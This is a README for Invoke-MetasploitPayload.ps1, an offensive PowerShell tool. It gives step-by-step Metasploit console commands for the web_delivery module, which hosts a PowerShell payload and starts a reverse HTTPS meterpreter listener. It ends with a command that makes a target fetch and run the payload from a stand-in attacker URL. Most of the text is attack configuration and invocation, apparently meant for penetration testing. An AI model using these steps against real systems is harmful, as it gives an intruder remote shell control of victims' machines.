 <h2 align="center">Invoke-MetasploitPayload.ps1</h2>
Invoke-MetasploitPayload is a Powershell script used to kick off a Metasploit payload. It relies on the exploit/multi/scripts/web_delivery Metasploit module.

#### The exploit/multi/scripts/web_delivery module
The web_delivery module generates a script for a given payload and then fires up a webserver to host said script. If the payload is a reverse shell, it will also handle starting up the listener for that payload. 

#### Example Usage
On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```
The SRVHOST and SRVPORT variables are used for running the webserver to host the script
```
set SRVHOST 0.0.0.0
set SRVPORT 8443
set SSL true
```
The `target` variable determines what type of script we're using. `2` is for PowerShell
```
set target 2
```
Pick your payload. In this case, we'll use a reverse https meterpreter payload
```
set payload windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
```
Run the exploit
```
run -j
```

Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.
#### Getting the Payload URL
After running the web_delivery module, it will print out the URL for the webserver hosting the script file. This will typically look like `http://[IP_OF_METASPLOIT_INSTANCE]/[RANDOM CHARACTERS]`. This URL is what you'll pass to `Invoke-MetasploitPayload`. _You can ignore the line about "Run the following command on the target machine"_

![Web Delivery Example](/web_delivery_screenshot.png)

#### Using Invoke-Metasploit.ps1

Usage is simple, just pass the URL from the web_delivery module. Invoke-MetasploitPayload will handle spinning up a new process and then downloading and executing the script.

```
PS> Invoke-MetasploitPayload -url "http://evil.example.com/SDFJLWKS"
```
